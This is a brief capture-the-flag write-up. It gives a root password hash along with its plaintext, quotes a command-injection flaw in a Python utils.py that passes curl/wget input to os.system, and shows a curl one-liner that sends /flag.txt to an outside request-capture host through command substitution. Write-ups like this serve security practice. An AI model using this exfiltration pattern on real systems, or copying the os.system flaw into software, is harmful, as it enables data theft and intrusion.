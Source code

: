# writeup
crack this to login as `root`. Its `123456` btw
```
root:$6$A6poINBsKceAi3RD$gIMPsdw12v0q7xsPpfuRiGs75I5qba.WXewZB9I1/Qb2aIGylES7miXy4qjI0PtiMKNiYvOcE1hRui9.gqwvc/:18540:0:::::
```
Command injection in `utils.py`
```
                    if mainCommand.lower()=='curl' or mainCommand.lower()=='wget':
                        if '&&' in fullCommand:
                            os.system(fullCommand.split('&&')[0])
                        else:
                            os.system(fullCommand)
```
Get flag
`curl "https://en7pzruxqbjg7.x.pipedream.net/$(cat /flag.txt)"`